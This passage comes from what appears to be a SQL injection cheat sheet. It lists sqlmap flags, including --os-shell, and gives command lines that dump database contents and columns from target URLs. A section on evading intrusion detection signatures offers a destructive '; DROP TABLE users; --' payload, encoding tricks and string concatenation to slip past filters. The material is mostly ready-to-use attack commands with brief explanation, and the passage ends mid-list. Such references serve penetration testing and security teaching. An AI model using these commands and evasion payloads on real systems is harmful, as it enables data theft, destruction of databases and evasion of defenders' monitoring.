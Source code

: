 | `--current-db`    | Show current DB name                                    |
| `--os-shell`      | Attempt to get an interactive OS shell (if supported)   |
| `--technique=...` | Specify injection techniques (`B`, `E`, `U`, `T`, `S`)  |
| `--level=...`     | Set the test level                                      |
| `--risk=...`      | Set the risk level                                      |
| `--random-agent`  | Use a random HTTP User-Agent header                     |

#### Usage Examples

- Union-Based

  ```bash
  sqlmap -u "http://target.com/index.php?id=1" --technique=U --dump
  ```

- Error-Based

  ```bash
  sqlmap -u "http://target.com/item.php?item=1" --technique=E --columns
  ```

- Blind (Time-Based)

  ```bash
  sqlmap -u "http://target.com/search.php?q=test" --technique=T --time-sec=5
  ```

------

### 10. Evasion Techniques (IEDS Signature Evasion)

Short explanation + example:

1. Inline Command

   - Chain commands inline (e.g., with `;`).

   - Example:

     ```sql
     ' ; DROP TABLE users; --
     ```

2. Char Encoding

   - Use alternative encodings (UTF-8, etc.) to mask payload.

   - Example:

     ```
     %c2%a3 or other unicode transformations
     ```

3. String Concatenation

   - Break strings to evade filters.
